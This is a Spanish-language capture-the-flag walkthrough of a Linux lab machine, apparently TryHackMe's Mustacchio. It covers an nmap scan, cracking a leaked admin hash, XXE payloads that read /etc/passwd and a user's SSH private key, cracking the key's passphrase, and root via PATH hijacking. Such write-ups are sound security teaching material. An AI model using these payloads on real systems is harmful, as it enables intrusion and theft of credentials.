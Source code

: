 #Linux #Easy 
### nmap 
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 20:34 EST
Nmap scan report for 10.10.163.196
Host is up (0.23s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.04 seconds
```
tenemos un archivo robots.txt
### Ports: 22/ssh - 80/http - 8765/http 

### Enumeracion del puerto 80
![[Pasted image 20231211214708.png]]
### parece que no hay mucha cosa interesante veamos el archivo robots.txt
![[Pasted image 20231211215451.png]]
parece que el archivo esta vacio
###  gobuster
![[Pasted image 20231211215631.png]]
gobuster nos certifica que existe el archivo robots.txt aparte de esto de todos los subdirectorios el mas llamativo es custom
### subdirectorio custom/js
![[Pasted image 20231211215353.png]]
### el archivo users.bak lo podemos descargar 
![[Pasted image 20231211220112.png]]
parece que tenemos un usuario admin con un hash asi que vamos a decodearlo

### usamos hashid para identificar el hash
![[Pasted image 20231211220355.png]]
buscamos un decoder de hash SHA-1
### tenemos un usuario y ahora una pass
![[Pasted image 20231211220902.png]]
### iniciamos session cn el panel de login
![[Pasted image 20231211222507.png]]
### parece que el panel de comandos no es vulnerable a reverse shell ni inyeccion sql
### miramos el codigo fuente
![[Pasted image 20231211222616.png]]
### parece que aqui nos dejan una pista asi que vamos a mirar este subdirectorio
### se nos descarga un archivo automaticamente y lo abrimos con strings 
parece que tenemos un archivo xml
![[Pasted image 20231211222919.png]]
### xml inyection 
usaremos esta xml inyeccion para intentar mirar el etc/passwd

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```

![[Pasted image 20231212001031.png]]
### perfecto tenemos respuesta. vemos que existe un usuario llamado barry. vamos a intentar consegui su id_rsa modificando la ruta en el xml

```python
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///home/barry/.ssh/id_rsa'>]> 
<comment> 
<name>Joe Hamd</name> 
<author>Barry Clad</author> 
<com>&test; </com> 
</comment>
```
### tenemos la id_rsa de barry
![[Pasted image 20231212001934.png]]
para poder copiar la id_rsa de una mejor podemos hacer Ctrl + u para ver el codigo fuente
![[Pasted image 20231212002209.png]]
### puerto 22/ssh
![[Pasted image 20231212002530.png]]
### intentamos conectarnos por ssh pero necesitamos otorgar permisos de lectura. esto lo hacemos con el comando chmod luego intentamos ingresar pero al parecer la id_rsa necesita una clave asi que vamos a conseguirla
![[Pasted image 20231212002803.png]]
### con estos pasos podemos conseguir el hash de la id_rsa y lo enviamos a un archivo llamado id_hash como se ve en la imagen, hacemos un cat para asegurarnos que el archivo id_hash contenga el hash
### usaremos la herramienta john para decodear el hash
![[Pasted image 20231212003052.png]]
### ahora tenemos la palabra clave que necesita la id_rsa asi que intentemos entrar por ssh de nuevo
### Port 22/ssh
![[Pasted image 20231212003433.png]]
perfecto estamos dentro y somos el usuario barry
### Escalada de privilegios
navegando por la maquina nos hemos encontrado otro usuario el cual tiene un archivo muy interesante, si hacemos cat no podemos ver nada pero si hacemos strings.....
![[Pasted image 20231212003910.png]]
### miramos los permisos del archivo
el archivo parece pertenecer al usuario root pero (otros) tienen permisos de ejecución 
![[Pasted image 20231212004140.png]]

### vamos a aprovecharnos de la variable tail para poder escalar privilegios
primero vamos al directorio /tmp vamos a crear un nuevo archivo que se llame tail y vamos a cambiar los permisos de la bash con el siguiente comando
![[Pasted image 20231212010043.png]]
guardamos el archivo
### $PATH hijacking

```python
export PATH=/tmp:$PATH
```
agregamos la ruta en la que se encuentra nuestro archivo para que el $PATH la tome en cuenta cuando haga un llamado
![[Pasted image 20231212010450.png]]
### luego hacemos echo $PATH para verificar y si todo esta bien hemos cambiado los permisos a la bash. asi que si hacemos bash -p deberiamos tener una bash como el usuario root
![[Pasted image 20231212011005.png]]
### WE ARE ROOT
